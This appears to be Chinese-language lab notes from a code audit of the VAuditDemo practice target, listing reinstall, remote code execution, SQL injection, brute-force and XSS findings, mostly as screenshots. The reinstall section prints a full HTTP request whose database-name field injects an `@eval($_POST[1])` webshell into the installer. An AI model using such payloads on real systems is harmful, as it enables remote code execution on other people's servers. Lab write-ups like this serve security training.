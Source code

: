 



# 代码审计

### VAuditDemo靶场

![image-20240925155611001](./assets/image-20240925155611001.png)

------



### 重装漏洞复现

>  相关代码

![image-20240925155830110](./assets/image-20240925155830110.png)

> 使用bp抓包



![image-20240925160740544](./assets/image-20240925160740544.png)

> 修改dataname

```php
//完整payload

POST /install/install.php HTTP/1.1
Host: 192.168.1.52:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 105
Origin: http://192.168.1.52:8081
Connection: keep-alive
Referer: http://192.168.1.52:8081/install/install.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

dbhost=127.0.0.1&dbuser=root&dbpass=root&dbname=test2;-- -";@eval($_POST[1]);//&Submit=%E5%AE%89%E8%A3%9D
```



```php
dbhost=localhost&dbuser=root&dbpass=root&dbname=test2;-- -";phpinfo();//&Submit=%E5%AE%89%E8%A3%9D

dbhost=127.0.0.1&dbuser=root&dbpass=root&dbname=test2;-- -";@eval($_POST[1]);//&Submit=%E5%AE%89%E8%A3%9D

exp;-- -";phpinfo();//
```

![image-20240925170408704](./assets/image-20240925170408704.png)

> 访问首页

![image-20240925170505142](./assets/image-20240925170505142.png)



------

### 远程代码执行漏洞

> 源码位置

![image-20240925193823973](./assets/image-20240925193823973.png)

> 执行展示

![image-20240925193711014](./assets/image-20240925193711014.png)

------

### 搜索框sql注入



> http://192.168.71.48:81/search.php?search=1

![image-20240925200443195](./assets/image-20240925200443195.png)

> 执行效果

![image-20240925200544589](./assets/image-20240925200544589.png)

------

### 登录框可爆破

![image-20240925203055163](./assets/image-20240925203055163.png)

------

### XSS

![image-20240925204103239](./assets/image-20240925204103239.png)

------

### 留言搜索框sql注入

![image-20240925204354762](./assets/image-20240925204354762.png)

------

